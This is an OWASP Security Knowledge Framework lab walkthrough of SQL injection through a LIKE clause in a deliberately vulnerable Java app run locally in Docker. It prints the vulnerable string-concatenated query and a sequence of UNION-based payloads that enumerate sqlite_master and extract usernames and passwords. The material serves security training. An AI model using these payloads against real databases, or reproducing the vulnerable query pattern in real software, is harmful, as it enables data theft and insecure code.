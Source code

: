# SQLI \(Like\)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-sqli-like
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-sqli-like
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by page name and displays the content.

![](../../.gitbook/assets/java/SQLI-Like/1.png)

```text
http://localhost:5000/home/Admin
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](../../.gitbook/assets/java/SQLI-Like/2.png)

```text
http://localhost:5000/home/Admin'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```java
  public List<User> getUser(String username) {
        String sql = "SELECT UserName, email FROM users WHERE UserName LIKE '%" + username + "%' ORDER BY UserId";
        List<User> users = jdbcTemplate.query(sql, (resultSet, rowNum) -> new User(rowNum,
                resultSet.getString("UserName"), resultSet.getString("email"), sql));
        return users;
    }
```

### Step3

Now we need to inject characters to make the SQL query syntactically correct.

![](../../.gitbook/assets/java/SQLI-Like/3.png)

```text
http:////localhost:5000/home/Admin%25'--
```

After that we inject a logical operator which is true \(and 1=1\). This should result in the application run as intended without errors.

![](../../.gitbook/assets/java/SQLI-Like/4.png)

```text
http://localhost:5000/home/Admin%25' AND 1=1--
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](../../.gitbook/assets/java/SQLI-Like/5.png)

```text
http://localhost:5000/home/Admin%25' union select 1--
```

This query results in an error, this is due to the fact that the original query started with 2 columns namely  
\* UserName \* email

![](../../.gitbook/assets/java/SQLI-Like/6.png)

```text
http://localhost:5000/home/Admin%25' union select 1,2--
```

Notice how "UserName" and "email" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take, the next step is querying system tables to check which tables are stored in the Database. From the error message in the first picture, we can determine a SQLite DB is being used. As the application didn't return an error, our guess is correct.

![](../../.gitbook/assets/java/SQLI-Like/7.png)

```text
http://localhost:5000/home/Admin%25' UNION SELECT 1,2 from sqlite_master--
```

#### Step 3

Now we need to discover the table and columns name of the table we want to extract. As the application only displays the first result, we need to play with SQL Limit.

![](../../.gitbook/assets/java/SQLI-Like/8.png)

```text
http://localhost:5000/home/Admin%25' union select tbl_name,sql from sqlite_master limit 1,1--
```

#### Step 4

Now we have all the information required to extract data from _users_ table. Play with SQL Limit to get credentials from more users.

![](../../.gitbook/assets/java/SQLI-Like/9.png)

```text
http://localhost:5000/home/Admin%25' union select UserName,Password from users limit 0,1--
```

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection" %}

SQLite Reference

{% embed url="https://www.sqlitetutorial.net/sqlite-java/query/" %}
